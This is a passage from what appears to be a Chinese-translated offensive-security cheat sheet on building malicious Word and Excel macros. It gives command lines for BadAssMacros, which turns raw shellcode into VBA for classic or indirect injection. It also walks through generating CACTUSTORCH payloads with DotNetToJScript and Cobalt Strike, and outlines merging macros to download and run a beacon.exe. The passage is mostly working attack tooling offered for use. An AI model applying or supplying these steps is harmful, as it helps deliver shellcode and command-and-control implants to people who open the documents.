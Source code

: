 #### DOCM - BadAssMacros（DOCM - BadAssMacros恶意宏生成器）

> 基于 C# 的自动化恶意宏生成器。

* https://github.com/Inf0secRabbit/BadAssMacros

```powershell
BadAssMacros.exe -h

# 从原始 shellcode 创建用于经典 shellcode 注入的 VBA
BadAssMacros.exe -i <path_to_raw_shellcode_file> -w <doc/excel> -p no -s classic -c <caesar_shift_value> -o <path_to_output_file>
BadAssMacros.exe -i .\Desktop\payload.bin -w doc -p no -s classic -c 23 -o .\Desktop\output.txt

# 从原始 shellcode 创建用于间接 shellcode 注入的 VBA
BadAssMacros.exe -i <path_to_raw_shellcode_file> -w <doc/excel> -p no -s indirect -o <path_to_output_file>

# 列出 Doc/Excel 文件中的模块
BadAssMacros.exe -i <path_to_doc/excel_file> -w <doc/excel> -p yes -l

# 清理 Doc/Excel 文件
BadAssMacros.exe -i <path_to_doc/excel_file> -w <doc/excel> -p yes -o <path_to_output_file> -m <module_name>
```

#### DOCM - CACTUSTORCH VBA 模块（DOCM - CACTUSTORCH VBA 模块）

> CactusTorch 利用 DotNetToJscript 技术在内存中加载 .Net 编译的二进制文件并从 vbscript 执行它

* https://github.com/mdsecactivebreach/CACTUSTORCH

* https://github.com/tyranid/DotNetToJScript/

* CACTUSTORCH - DotNetToJScript全方位解析 - https://youtu.be/YiaKb8nHFSY

* CACTUSTORCH - Cobaltstrike攻击者脚本插件 - https://www.youtube.com/watch?v=_pwH6a-6yAQ

  1. 在Cobalt Strike中导入**.cna**文件
  2. 从CACTUSTORCH菜单生成一个新的VBA有效载荷
  3. 下载DotNetToJscript
  4. 编译它
     * **DotNetToJscript.exe** - 负责引导C#二进制文件（作为输入提供）并将其转换为JavaScript或VBScript
     * **ExampleAssembly.dll** - 将提供给DotNetToJscript.exe的C#程序集。在默认项目配置中，该程序集只是弹出一个带有文本“test”的消息框
  5. 执行**DotNetToJscript.exe**并为其提供ExampleAssembly.dll，指定输出文件和输出类型
     ```ps1
     DotNetToJScript.exe ExampleAssembly.dll -l vba -o test.vba -c cactusTorch
     ```
  6. 使用生成的代码替换CactusTorch中的硬编码二进制文件

### 文档翻译

#### DOCM - 自定义DL + Exec的MMG

1. 在第一个宏中自定义下载到"C:\\Users\\Public\\beacon.exe"
2. 使用MMG创建自定义二进制执行
3. 合并两个宏
